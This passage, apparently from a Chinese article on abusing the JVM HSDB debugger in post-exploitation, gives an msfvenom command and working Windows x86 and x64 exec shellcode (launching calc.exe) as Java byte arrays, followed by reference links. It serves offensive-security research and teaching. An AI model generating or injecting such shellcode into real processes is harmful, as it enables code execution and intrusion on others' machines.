$ msfvenom -p windows/x64/exec cmd=calc.exe -f java --bad "\x00"

# x32
fce8820000006089e531c0648b50308b520c8b52148b72280fb74a2631ffac3c617c022c20c1cf0d01c7e2f252578b52108b4a3c8b4c1178e34801d1518b592001d38b4918e33a498b348b01d631ffacc1cf0d01c738e075f6037df83b7d2475e4588b582401d3668b0c4b8b581c01d38b048b01d0894424245b5b61595a51ffe05f5f5a8b12eb8d5d6a018d85b20000005068318b6f87ffd5bbf0b5a25668a695bd9dffd53c067c0a80fbe07505bb4713726f6a0053ffd563616c632e65786500
(byte) 0xfc, (byte) 0xe8, (byte) 0x82, (byte) 0x00, (byte) 0x00, (byte) 0x00, (byte) 0x60, (byte) 0x89,
(byte) 0xe5, (byte) 0x31, (byte) 0xc0, (byte) 0x64, (byte) 0x8b, (byte) 0x50, (byte) 0x30, (byte) 0x8b,
(byte) 0x52, (byte) 0x0c, (byte) 0x8b, (byte) 0x52, (byte) 0x14, (byte) 0x8b, (byte) 0x72, (byte) 0x28,
(byte) 0x0f, (byte) 0xb7, (byte) 0x4a, (byte) 0x26, (byte) 0x31, (byte) 0xff, (byte) 0xac, (byte) 0x3c,
(byte) 0x61, (byte) 0x7c, (byte) 0x02, (byte) 0x2c, (byte) 0x20, (byte) 0xc1, (byte) 0xcf, (byte) 0x0d,
(byte) 0x01, (byte) 0xc7, (byte) 0xe2, (byte) 0xf2, (byte) 0x52, (byte) 0x57, (byte) 0x8b, (byte) 0x52,
(byte) 0x10, (byte) 0x8b, (byte) 0x4a, (byte) 0x3c, (byte) 0x8b, (byte) 0x4c, (byte) 0x11, (byte) 0x78,
(byte) 0xe3, (byte) 0x48, (byte) 0x01, (byte) 0xd1, (byte) 0x51, (byte) 0x8b, (byte) 0x59, (byte) 0x20,
(byte) 0x01, (byte) 0xd3, (byte) 0x8b, (byte) 0x49, (byte) 0x18, (byte) 0xe3, (byte) 0x3a, (byte) 0x49,
(byte) 0x8b, (byte) 0x34, (byte) 0x8b, (byte) 0x01, (byte) 0xd6, (byte) 0x31, (byte) 0xff, (byte) 0xac,
(byte) 0xc1, (byte) 0xcf, (byte) 0x0d, (byte) 0x01, (byte) 0xc7, (byte) 0x38, (byte) 0xe0, (byte) 0x75,
(byte) 0xf6, (byte) 0x03, (byte) 0x7d, (byte) 0xf8, (byte) 0x3b, (byte) 0x7d, (byte) 0x24, (byte) 0x75,
(byte) 0xe4, (byte) 0x58, (byte) 0x8b, (byte) 0x58, (byte) 0x24, (byte) 0x01, (byte) 0xd3, (byte) 0x66,
(byte) 0x8b, (byte) 0x0c, (byte) 0x4b, (byte) 0x8b, (byte) 0x58, (byte) 0x1c, (byte) 0x01, (byte) 0xd3,
(byte) 0x8b, (byte) 0x04, (byte) 0x8b, (byte) 0x01, (byte) 0xd0, (byte) 0x89, (byte) 0x44, (byte) 0x24,
(byte) 0x24, (byte) 0x5b, (byte) 0x5b, (byte) 0x61, (byte) 0x59, (byte) 0x5a, (byte) 0x51, (byte) 0xff,
(byte) 0xe0, (byte) 0x5f, (byte) 0x5f, (byte) 0x5a, (byte) 0x8b, (byte) 0x12, (byte) 0xeb, (byte) 0x8d,
(byte) 0x5d, (byte) 0x6a, (byte) 0x01, (byte) 0x8d, (byte) 0x85, (byte) 0xb2, (byte) 0x00, (byte) 0x00,
(byte) 0x00, (byte) 0x50, (byte) 0x68, (byte) 0x31, (byte) 0x8b, (byte) 0x6f, (byte) 0x87, (byte) 0xff,
(byte) 0xd5, (byte) 0xbb, (byte) 0xf0, (byte) 0xb5, (byte) 0xa2, (byte) 0x56, (byte) 0x68, (byte) 0xa6,
(byte) 0x95, (byte) 0xbd, (byte) 0x9d, (byte) 0xff, (byte) 0xd5, (byte) 0x3c, (byte) 0x06, (byte) 0x7c,
(byte) 0x0a, (byte) 0x80, (byte) 0xfb, (byte) 0xe0, (byte) 0x75, (byte) 0x05, (byte) 0xbb, (byte) 0x47,
(byte) 0x13, (byte) 0x72, (byte) 0x6f, (byte) 0x6a, (byte) 0x00, (byte) 0x53, (byte) 0xff, (byte) 0xd5,
(byte) 0x63, (byte) 0x61, (byte) 0x6c, (byte) 0x63, (byte) 0x2e, (byte) 0x65, (byte) 0x78, (byte) 0x65,
(byte) 0x00


# x64
4831c94881e9ddffffff488d05efffffff48bbf51fb69f1f8055cb48315827482df8ffffffe2f40957357bef6895cbf51ff7ce5ed0079aa357874d7ac8de9995573dcd07c8de99d5573ded4fc85a7cbf55fbaed6c8640b5923d7e31dac758a34d6bbde1e41b726a75ee7d794d27540b723fe9ecf0bd543f51fb6d79a4021acbd1e66cf94c84d8f7e5f96d61e50b69dbde07fde94b4dd83f4c9fbaed6c8640b595e775612c1540acdffc36e538319effd5a8f4e6a580d8f7e5f92d61e50338a7e13fedb94c04982f4cff7141b081dca255eeede47de0c91b447f7c65eda1d48193ff7cde0600d8aac45fe140d6902340ae0ebd7a58155cbf51fb69f1fc8d846f41eb69f5e3a64409a98494aa470e069a35e0c398a3dc8342057355b37bc53b7ff9f4d7f6a85ee8ce66dd9f51fd914422fe063fc7eec36e59067d39f1f8055cb
(byte) 0x48,(byte) 0x31,(byte) 0xc9,(byte) 0x48,(byte) 0x81,(byte) 0xe9,(byte) 0xdd,(byte) 0xff,(byte) 0xff,(byte) 0xff,(byte) 0x48,(byte) 0x8d,(byte) 0x05,(byte) 0xef,(byte) 0xff,
(byte) 0xff,(byte) 0xff,(byte) 0x48,(byte) 0xbb,(byte) 0xf5,(byte) 0x1f,(byte) 0xb6,(byte) 0x9f,(byte) 0x1f,(byte) 0x80,(byte) 0x55,(byte) 0xcb,(byte) 0x48,(byte) 0x31,(byte) 0x58,
(byte) 0x27,(byte) 0x48,(byte) 0x2d,(byte) 0xf8,(byte) 0xff,(byte) 0xff,(byte) 0xff,(byte) 0xe2,(byte) 0xf4,(byte) 0x09,(byte) 0x57,(byte) 0x35,(byte) 0x7b,(byte) 0xef,(byte) 0x68,
(byte) 0x95,(byte) 0xcb,(byte) 0xf5,(byte) 0x1f,(byte) 0xf7,(byte) 0xce,(byte) 0x5e,(byte) 0xd0,(byte) 0x07,(byte) 0x9a,(byte) 0xa3,(byte) 0x57,(byte) 0x87,(byte) 0x4d,(byte) 0x7a,
(byte) 0xc8,(byte) 0xde,(byte) 0x99,(byte) 0x95,(byte) 0x57,(byte) 0x3d,(byte) 0xcd,(byte) 0x07,(byte) 0xc8,(byte) 0xde,(byte) 0x99,(byte) 0xd5,(byte) 0x57,(byte) 0x3d,(byte) 0xed,
(byte) 0x4f,(byte) 0xc8,(byte) 0x5a,(byte) 0x7c,(byte) 0xbf,(byte) 0x55,(byte) 0xfb,(byte) 0xae,(byte) 0xd6,(byte) 0xc8,(byte) 0x64,(byte) 0x0b,(byte) 0x59,(byte) 0x23,(byte) 0xd7,
(byte) 0xe3,(byte) 0x1d,(byte) 0xac,(byte) 0x75,(byte) 0x8a,(byte) 0x34,(byte) 0xd6,(byte) 0xbb,(byte) 0xde,(byte) 0x1e,(byte) 0x41,(byte) 0xb7,(byte) 0x26,(byte) 0xa7,(byte) 0x5e,
(byte) 0xe7,(byte) 0xd7,(byte) 0x94,(byte) 0xd2,(byte) 0x75,(byte) 0x40,(byte) 0xb7,(byte) 0x23,(byte) 0xfe,(byte) 0x9e,(byte) 0xcf,(byte) 0x0b,(byte) 0xd5,(byte) 0x43,(byte) 0xf5,
(byte) 0x1f,(byte) 0xb6,(byte) 0xd7,(byte) 0x9a,(byte) 0x40,(byte) 0x21,(byte) 0xac,(byte) 0xbd,(byte) 0x1e,(byte) 0x66,(byte) 0xcf,(byte) 0x94,(byte) 0xc8,(byte) 0x4d,(byte) 0x8f,
(byte) 0x7e,(byte) 0x5f,(byte) 0x96,(byte) 0xd6,(byte) 0x1e,(byte) 0x50,(byte) 0xb6,(byte) 0x9d,(byte) 0xbd,(byte) 0xe0,(byte) 0x7f,(byte) 0xde,(byte) 0x94,(byte) 0xb4,(byte) 0xdd,
(byte) 0x83,(byte) 0xf4,(byte) 0xc9,(byte) 0xfb,(byte) 0xae,(byte) 0xd6,(byte) 0xc8,(byte) 0x64,(byte) 0x0b,(byte) 0x59,(byte) 0x5e,(byte) 0x77,(byte) 0x56,(byte) 0x12,(byte) 0xc1,
(byte) 0x54,(byte) 0x0a,(byte) 0xcd,(byte) 0xff,(byte) 0xc3,(byte) 0x6e,(byte) 0x53,(byte) 0x83,(byte) 0x19,(byte) 0xef,(byte) 0xfd,(byte) 0x5a,(byte) 0x8f,(byte) 0x4e,(byte) 0x6a,
(byte) 0x58,(byte) 0x0d,(byte) 0x8f,(byte) 0x7e,(byte) 0x5f,(byte) 0x92,(byte) 0xd6,(byte) 0x1e,(byte) 0x50,(byte) 0x33,(byte) 0x8a,(byte) 0x7e,(byte) 0x13,(byte) 0xfe,(byte) 0xdb,
(byte) 0x94,(byte) 0xc0,(byte) 0x49,(byte) 0x82,(byte) 0xf4,(byte) 0xcf,(byte) 0xf7,(byte) 0x14,(byte) 0x1b,(byte) 0x08,(byte) 0x1d,(byte) 0xca,(byte) 0x25,(byte) 0x5e,(byte) 0xee,
(byte) 0xde,(byte) 0x47,(byte) 0xde,(byte) 0x0c,(byte) 0x91,(byte) 0xb4,(byte) 0x47,(byte) 0xf7,(byte) 0xc6,(byte) 0x5e,(byte) 0xda,(byte) 0x1d,(byte) 0x48,(byte) 0x19,(byte) 0x3f,
(byte) 0xf7,(byte) 0xcd,(byte) 0xe0,(byte) 0x60,(byte) 0x0d,(byte) 0x8a,(byte) 0xac,(byte) 0x45,(byte) 0xfe,(byte) 0x14,(byte) 0x0d,(byte) 0x69,(byte) 0x02,(byte) 0x34,(byte) 0x0a,
(byte) 0xe0,(byte) 0xeb,(byte) 0xd7,(byte) 0xa5,(byte) 0x81,(byte) 0x55,(byte) 0xcb,(byte) 0xf5,(byte) 0x1f,(byte) 0xb6,(byte) 0x9f,(byte) 0x1f,(byte) 0xc8,(byte) 0xd8,(byte) 0x46,
(byte) 0xf4,(byte) 0x1e,(byte) 0xb6,(byte) 0x9f,(byte) 0x5e,(byte) 0x3a,(byte) 0x64,(byte) 0x40,(byte) 0x9a,(byte) 0x98,(byte) 0x49,(byte) 0x4a,(byte) 0xa4,(byte) 0x70,(byte) 0xe0,
(byte) 0x69,(byte) 0xa3,(byte) 0x5e,(byte) 0x0c,(byte) 0x39,(byte) 0x8a,(byte) 0x3d,(byte) 0xc8,(byte) 0x34,(byte) 0x20,(byte) 0x57,(byte) 0x35,(byte) 0x5b,(byte) 0x37,(byte) 0xbc,
(byte) 0x53,(byte) 0xb7,(byte) 0xff,(byte) 0x9f,(byte) 0x4d,(byte) 0x7f,(byte) 0x6a,(byte) 0x85,(byte) 0xee,(byte) 0x8c,(byte) 0xe6,(byte) 0x6d,(byte) 0xd9,(byte) 0xf5,(byte) 0x1f,
(byte) 0xd9,(byte) 0x14,(byte) 0x42,(byte) 0x2f,(byte) 0xe0,(byte) 0x63,(byte) 0xfc,(byte) 0x7e,(byte) 0xec,(byte) 0x36,(byte) 0xe5,(byte) 0x90,(byte) 0x67,(byte) 0xd3,(byte) 0x9f,
(byte) 0x1f,(byte) 0x80,(byte) 0x55,(byte) 0xcb


```

参考：

- [JVM 核心对抗 - 视频](https://isc.360.com/2020/detail.html?vid=3699)
- [JVM 核心对抗 - PPT](https://mp.weixin.qq.com/s?__biz=Mzg5OTQ3NzA2MQ==&mid=2247486782&idx=1&sn=2719a799edf460319b0006e11ef72b94&chksm=c053f614f7247f02ffb9e47804bc3efaa7b4db14756443a24632df8631ed8522dc8fcf9220c7&scene=58&subscene=0#rd)
- [解读HSDB](https://www.jianshu.com/p/f6f9b14d5f21)
- [JVM HSDB在后渗透中的利用](https://yzddmr6.com/posts/jvm-hsdb-in-pentest/)
- [Windbg元指令 - Microsoft](https://learn.microsoft.com/en-us/windows-hardware/drivers/debuggercmds/meta-commands)
- [sun.jvm.hotspot.debugger.windbg](https://cr.openjdk.org/~poonam/SA-javadocs/index.html?sun/jvm/hotspot/debugger/package-summary.html)

